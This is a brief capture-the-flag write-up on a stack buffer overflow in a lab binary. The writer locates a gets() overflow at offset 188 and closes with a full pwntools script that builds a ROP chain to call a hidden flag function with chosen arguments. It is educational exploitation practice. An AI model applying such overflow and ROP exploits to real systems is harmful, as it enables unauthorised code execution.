





- Upon inspection, seems pretty simple?
    - 
- No defense, let's decompile it
    - 
- ohh it seems i can't open it in ghidra?
    - but dogbolt opens it so
        - 
- We see the structure of the binary, and see that if we input > 180 bytes then the buffer overflows due to `gets(local_bc)`, and this seems like a `ret2win` problem cause theres a hidden flag function, but we need to pass the correct parameters
- Seems easy!
- 
    - Offset = 188
- How do we find out the params? Cause it's signed, we try to find the unsigned version
    - 
- Then we're done!
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# Pass in pattern_size, get back EIP/RIP offset
offset = 188

# Start program
io = start()

rop = ROP(elf)
rop.flag(0xdeadbeef, 0xc0ded00d)

# Build the payload
payload = flat({
    offset: rop.chain()
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Get flag
io.interactive()
```

